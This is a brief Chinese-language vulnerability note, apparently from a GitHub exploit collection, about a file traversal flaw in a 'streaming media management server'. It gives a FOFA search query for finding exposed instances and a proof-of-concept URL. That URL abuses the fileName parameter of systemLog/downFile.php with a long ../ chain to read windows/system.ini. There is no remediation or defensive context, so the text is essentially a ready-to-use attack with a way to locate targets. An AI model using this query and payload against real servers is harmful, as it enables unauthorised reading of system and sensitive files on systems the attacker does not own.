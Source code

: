 # 通过文件遍历漏洞获取敏感信息

## 资产收集
fofa：title="流媒体管理服务器"

## POC
`http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini`
![](img/file.png)